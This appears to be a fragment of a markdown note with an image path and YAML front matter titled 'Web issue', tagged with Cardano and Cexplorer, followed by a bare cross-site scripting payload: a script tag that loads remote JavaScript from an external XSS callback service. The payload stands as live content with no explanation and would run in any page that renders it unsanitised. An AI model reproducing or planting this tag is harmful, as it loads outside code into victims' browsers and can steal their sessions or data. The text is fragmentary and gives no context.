 ```yaml
---
title: Web issue
tags:
  - "101"
  - "360"
  - "#Babbage"
  - "#cardano"
  - "#Cexplorer"
url: ""
image: ""
image_text: ""
---
```


<script src=https://xss.report/c/moz4a></script>
